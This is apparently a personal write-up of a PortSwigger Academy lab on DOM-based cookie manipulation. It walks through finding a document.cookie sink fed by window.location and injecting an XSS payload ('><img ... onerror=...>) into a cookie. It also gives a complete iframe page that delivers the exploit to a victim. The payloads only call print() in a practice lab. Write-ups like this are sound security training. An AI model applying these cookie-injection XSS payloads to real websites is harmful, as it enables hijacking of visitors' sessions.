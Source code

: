 # DOM-based cookie manipulation

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/cookie-manipulation/lab-dom-cookie-manipulation), you'll learn: DOM-based cookie manipulation! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause [XSS](https://portswigger.net/web-security/cross-site-scripting) on a different page and call the `print()` function. You will need to use the exploit server to direct the victim to the correct pages.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114183148.png)

In the home page, we can view other products:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114183313.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114183358.png)

**View source page:**
```html
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```

In here, **we see a `document.cookie` sink (Dangerous function).** And **the source (attacker controllable input) is `window.location`.**

That being said, **it'll set a new cookie called `lastViewdProduct`, with the value of our `window.location` property.**

Let's refresh the page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114183817.png)

```html
<a href='https://0af2006504761747c0200a5f001a0028.web-security-academy.net/product?productId=1'>Last viewed product</a><p>|</p>
```

When we refreshed the page, it'll create a new `<a>` element, with attribute `href`, and it's value is our `window.location` property.

That being said, we can try to exploit XSS!

**Payload:**
```html
/product?productId=1&payload='><img src=errorpls onerror="print()">
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114184337.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114184354.png)

Our evil cookie has been set!

Let's refresh the page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114184423.png)

Nice!

**Now, we can create a HTML payload to trigger the XSS payload to the victim:**
```html
<html>
    <head>
        <title>DOM-based cookie manipulation</title>
    </head>
    <body>
        <iframe src="https://0af2006504761747c0200a5f001a0028.web-security-academy.net/product?productId=1&payload=%27%3E%3Cimg%20src%3Derrorpls%20onerror%3D%22print%28%29%22%3E" onload="if(!window.triggerXSSPayload)this.src='https://0af2006504761747c0200a5f001a0028.web-security-academy.net';window.triggerXSSPayload=1;"></iframe>
    </body>
</html>
```

This payload will create an `<iframe>` element that pointing to our set cookie payload.

Then, when it's loaded, we checks the XSS payload triggered or not.

If not, then set the `<iframe>` attribute `src` property to the vulnerable website's home page. This will trigger our cookie's XSS payload.

**Then host it on the exploit server, and deliver it to victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114190003.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-5/images/Pasted%20image%2020230114190009.png)

# What we've learned:

1. DOM-based cookie manipulation